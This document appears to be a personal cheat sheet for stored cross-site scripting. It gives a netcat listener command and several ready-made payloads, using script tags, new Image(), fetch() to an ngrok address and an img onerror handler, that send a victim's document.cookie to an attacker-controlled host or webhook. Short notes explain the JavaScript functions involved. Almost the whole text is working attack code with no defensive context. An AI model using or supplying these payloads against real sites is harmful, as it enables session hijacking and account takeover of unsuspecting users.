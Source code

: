 
```sh
nc -nvlp 4444
```

stored xss

 `escape <p> tag first`

```html
</p> <script>new Image().src="http://192.168.57.5:4444/?"+ encodeURI(document.cookie);</script>
```

```html
</p><script>var i=new Image; i.src="webHookAddress/?"+document.cookie;</script>
```

new Image() contructor create an image object
it is similar to

document.createElement("image")

The encodeURIComponent() function encodes a URI by replacing each instance of certain characters by one, two, three, or four escape sequences representing the UTF-8

```js
fetch(`https://ae1c-43.ngrok-free.app?${encodeURIComponent(document.cookie)}`, { method: "get", headers: new Headers({ "ngrok-skip-browser-warning": true }) })
```

```js
<img src=x onerror=this.src='https://webhook.site/?c='.concat(document.cookie)>
```
